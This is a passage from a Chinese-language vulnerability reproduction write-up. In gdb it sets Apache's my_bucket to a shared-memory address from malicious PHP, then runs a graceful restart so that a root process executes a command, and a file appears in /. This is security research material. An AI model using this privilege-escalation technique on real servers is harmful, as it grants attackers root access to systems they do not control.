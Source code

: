 ```
(gdb) set follow-fork-mode child
(gdb) c
```

#### 执行apachectl graceful，使其优雅重启

```
[root@bogon john]# apachectl graceful
[root@bogon john]# 
```

#### 修改my_bucket

我们让my_bucket，设置为，执行恶意PHP代码时，输出的evil_shm_mid_addr:0x7f1f62a3e140

```
Continuing.

Program received signal SIGUSR1, User defined signal 1.
0x00007f1f612bdf53 in __select_nocancel () from /lib64/libc.so.6
(gdb) c
Continuing.
[New process 20155]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
[Switching to Thread 0x7f1f62ae9780 (LWP 20155)]

Breakpoint 1, child_main (child_num_arg=child_num_arg@entry=0, child_bucket=child_bucket@entry=0) at prefork.c:380
380	{
(gdb) set my_bucket = 0x7f1f62a3e140
(gdb) c
Continuing.
[New process 20177]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
process 20177 is executing new program: /usr/bin/bash
Error in re-setting breakpoint 1: Function "child_main" not defined.
process 20177 is executing new program: /usr/bin/touch
Missing separate debuginfos, use: debuginfo-install bash-4.2.46-31.el7.x86_64
[Inferior 3 (process 20177) exited normally]
Missing separate debuginfos, use: debuginfo-install coreutils-8.22-23.el7.x86_64
(gdb) 
```
#### 查看根目录，发现利用成功

```
➜  ~ ls /
bin  boot  dev  etc  hello  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  www
```

# 时间线
